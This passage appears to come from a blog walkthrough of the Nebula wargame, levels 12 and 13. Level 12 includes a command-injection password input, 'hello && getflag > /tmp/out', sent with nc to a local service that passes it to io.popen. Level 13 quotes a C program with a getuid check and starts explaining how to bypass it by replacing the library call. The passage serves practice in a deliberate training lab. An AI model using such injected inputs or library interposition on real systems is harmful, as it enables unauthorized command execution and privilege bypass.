 So we need to connect to the localhost on port 50001 and enter the correct password. the password is whatever the hash is in plain text. But even if we get it right you can see that we don't get our token. With a specially crafted password however, we can make use of the `io.popen` call.

{% highlight console %}
level12@nebula:/home/flag12$ nc localhost 50001
Password: hello && getflag > /tmp/out
Better luck next time
level12@nebula:/home/flag12$ cat /tmp/out
You have successfully executed getflag on a target account
{% endhighlight %}

## Level 13 ##

> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id. 

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
    printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
    printf("The system administrators will be notified of this violation\n");
    exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
{% endhighlight %}

Here we need to fake our UID. Sounds tricky. Actually, we don't fake our UID, we fake the call to `getuid`. How?
`getuid` is called from a library, which means we are able to replace it with our own library. Let's take a look at
the function definition of `getuid`

{% highlight console %}
GETUID(2)                  Linux Programmer's Manual                 GETUID(2)

NAME
       getuid, geteuid - get user identity

SYNOPSIS
       #include <unistd.h>
       #include <sys/types.h>

       uid_t getuid(void);
       uid_t geteuid(void);
{% endhighlight %}
